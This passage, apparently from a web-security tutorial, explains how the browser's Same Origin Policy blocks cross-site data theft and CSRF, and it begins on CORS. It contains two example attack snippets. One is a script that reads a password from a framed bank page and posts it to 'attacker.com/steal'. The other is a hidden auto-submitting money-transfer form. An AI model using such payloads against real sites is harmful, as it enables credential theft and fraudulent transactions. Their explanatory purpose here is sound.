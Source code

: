 ```html
<!-- A malicious site without SOP could do something like this -->
<iframe src="https://bank.com" id="bank-frame"></iframe>
<script>
  // Without SOP, this would work and steal user data
  const bankFrame = document.getElementById("bank-frame");
  const bankDocument = bankFrame.contentDocument;
  const password = bankDocument.getElementById("password").value;
  // Sending the password to the attacker's server
  fetch("https://attacker.com/steal", {
    method: "POST",
    body: JSON.stringify({ password }),
  });
</script>
```

### 2. Prevention of CSRF attacks

Same Origin Policy helps prevent Cross-Site Request Forgery (CSRF) attacks, which involve executing unauthorized requests on behalf of a logged-in user.

```html
<!-- A malicious site without SOP could do something like this -->
<form
  id="csrf-form"
  action="https://bank.com/transfer"
  method="POST"
  style="display:none;"
>
  <input type="hidden" name="to" value="attacker" />
  <input type="hidden" name="amount" value="1000" />
</form>
<script>
  // Without SOP, this would work and execute the transfer without user knowledge
  document.getElementById("csrf-form").submit();
</script>
```

### 3. Isolation of JavaScript execution contexts

SOP provides isolation between different JavaScript execution contexts, preventing interference between scripts from different sources.

## Exceptions and workarounds for Same Origin Policy

Although Same Origin Policy is a key security mechanism, there are situations where communication between different origins is desired or even necessary. In such cases, there are special mechanisms that allow for secure cross-origin communication.

### 1. Cross-Origin Resource Sharing (CORS)

CORS is a mechanism that allows servers to specify which origins can access their resources.
